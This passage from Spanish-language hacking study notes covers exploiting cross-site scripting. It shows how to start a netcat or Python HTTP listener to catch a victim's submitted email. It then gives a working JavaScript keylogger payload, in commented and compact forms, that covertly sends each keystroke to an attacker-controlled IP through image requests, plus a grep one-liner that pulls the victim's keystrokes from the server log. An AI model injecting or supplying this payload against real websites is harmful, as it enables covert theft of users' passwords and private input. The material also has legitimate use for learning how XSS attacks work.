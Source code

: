 ![[XSS 5.png]]

Ahora si nosotros **nos encontramos en escucha por el puerto 80 (HTTP)** con la herramienta "**nc -nlvp**", o nos montamos un servidor temporal con "**python3 -m http.server 80**" en la consola, cuando la victima coloque su correo **nosotros los recibiremos**.

``nc -nlvp``
![[XSS 6.png]]

``python3 -m http.server 80``
![[XSS 7.png]]

### Keylogger

Podemos crear un **Keylogger**, que este se utiliza para que **de manera oculta**, cada vez que el usuario **pulse una tecla nos la reporte por consola** a nosotros mientras estamos en escucha.

**Script con comentarios para entenderlo**
```javascript
<script>
  var k = ""; // Variable para almacenar las teclas presionadas
  
  // Función que se ejecuta cada vez que se presiona una tecla en el documento
  document.onkeypress = function(e){
    e = e || window.event; // Manejo de compatibilidad con navegadores antiguos
    
    k += e.key; // Agrega la tecla presionada a la cadena k
    
    // Crea una nueva instancia de la etiqueta <img> (una imagen invisible)
    var i = new Image();
    
    // Asigna la URL de la imagen (en este caso, una URL ficticia que incluye la cadena de teclas presionadas)
    i.src = "http://192.168.0.193/" + k;
  };
</script>
```

**Script sin comentarios (Compacto)**
```javascript
<script>
  var k = "";
  document.onkeypress = function(e){
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://192.168.0.193/" + k;
  };
</script>
```

Ahora si nos montamos un servidor temporal con ``python3 -m http.server 80 2>&1 | grep -oP "GET /\K[^.*\s]+"`` Estaremos filtrando **solo por las teclas presionadas por la victima**, evitando que salgan errores y otras peticiones.
